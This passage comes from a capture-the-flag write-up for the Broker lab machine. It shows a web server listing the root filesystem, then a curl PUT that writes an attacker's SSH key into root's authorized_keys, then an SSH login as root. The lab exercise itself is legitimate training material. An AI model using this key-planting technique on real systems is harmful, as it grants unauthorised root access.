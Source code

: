     <a href="lib/">lib/</a>                                               06-Nov-2023 00:57                   -
    <a href="lib32/">lib32/</a>                                             17-Feb-2023 17:19                   -
    <a href="lib64/">lib64/</a>                                             05-Nov-2023 02:36                   -
    <a href="libx32/">libx32/</a>                                            17-Feb-2023 17:19                   -
    <a href="lost%2Bfound/">lost+found/</a>                                        27-Apr-2023 15:40                   -
    <a href="media/">media/</a>                                             06-Nov-2023 01:18                   -
    <a href="mnt/">mnt/</a>                                               17-Feb-2023 17:19                   -
    <a href="opt/">opt/</a>                                               06-Nov-2023 01:18                   -
    <a href="proc/">proc/</a>                                              08-Nov-2023 17:53                   -
    <a href="root/">root/</a>                                              07-Nov-2023 08:40                   -
    <a href="run/">run/</a>                                               08-Nov-2023 19:24                   -
    <a href="sbin/">sbin/</a>                                              06-Nov-2023 01:10                   -
    <a href="srv/">srv/</a>                                               06-Nov-2023 01:18                   -
    <a href="sys/">sys/</a>                                               08-Nov-2023 17:53                   -
    <a href="tmp/">tmp/</a>                                               08-Nov-2023 20:00                   -
    <a href="usr/">usr/</a>                                               17-Feb-2023 17:19                   -
    <a href="var/">var/</a>                                               05-Nov-2023 01:43                   -
    <a href="test.out">test.out</a>                                           08-Nov-2023 19:22                  14
    </pre><hr></body>
    <.md>


If I use a PUT request instead, it'll write what I send to the file:



    activemq@broker:/dev/shm$ curl -X PUT localhost:1338/root/.ssh/authorized_keys -d 'ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIDIK/xSi58QvP1UqH+nBwpD1WQ7IaxiVdTpsg5U19G3d nobody@nothing'



So this writes my public SSH key to root's `authorized_keys` file.

Now I can SSH as root to Broker:



    oxdf@hacky$ ssh -i ~/keys/ed25519_gen root@10.10.11.243
    Welcome to Ubuntu 22.04.3 LTS (GNU/Linux 5.15.0-88-generic x86_64)
    ...[snip]...
    root@broker:~#
